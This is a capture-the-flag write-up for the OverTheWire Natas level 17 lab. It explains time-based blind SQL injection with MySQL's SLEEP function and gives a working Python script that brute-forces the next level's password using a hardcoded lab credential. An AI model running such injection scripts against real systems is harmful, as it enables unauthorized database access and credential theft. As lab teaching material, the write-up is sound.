
"I'm sold, how do we get started?"

With a SQL injection as usual! We get our usual query.

```sql
SELECT * FROM users WHERE username="natas18" AND password LIKE BINARY "%"
```

But we'll be adding a secret ingredient, if you read [this](https://www.owasp.org/images/a/a5/2018-02-05-AhmadAshraff.pdf#page=9) you know what it is, we will be using [`SLEEP`](https://dev.mysql.com/doc/refman/5.7/en/miscellaneous-functions.html#function_sleep).

What we want to do is to force correct queries to sleep for a given period of time, if the response takes at least that time to arrive it is because it most likely you have a hit (beware of network delays!).

Our query now looks like:

```sql
SELECT * FROM users WHERE username="natas18" AND password LIKE BINARY "%" AND SLEEP(1)
```

*Note: we now have a dangling `"`, you can add `#` in order to comment it out from the query! Do not forget to URL encode it though!.*

Once more we need to adapt our little brute force script (maybe we could generalize it)?

[![The General Problem](https://imgs.xkcd.com/comics/the_general_problem.png)](https://www.xkcd.com/974/)

At this point you should be tired of writing these and already be able to do it from memory, 
or not, I'm not the one who should be doing the judgement.
The code ends up looking like this:

```py
import string
import requests
import time

url = "http://natas17.natas.labs.overthewire.org/index.php?debug&username="
password = ""
candidates = f"{string.digits}{string.ascii_letters}"

query = 'natas18" AND password LIKE BINARY "{}%" AND SLEEP(1)%23'
for _ in range(32):
    for c in candidates:
        sent = time.time()
        resp = requests.get(
            url + query.format(password + c),
            auth=("natas17", "8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw"),
        )
        elapsed = time.time() - sent
        if elapsed > 1:
            password += c
            print(password)
            break
```
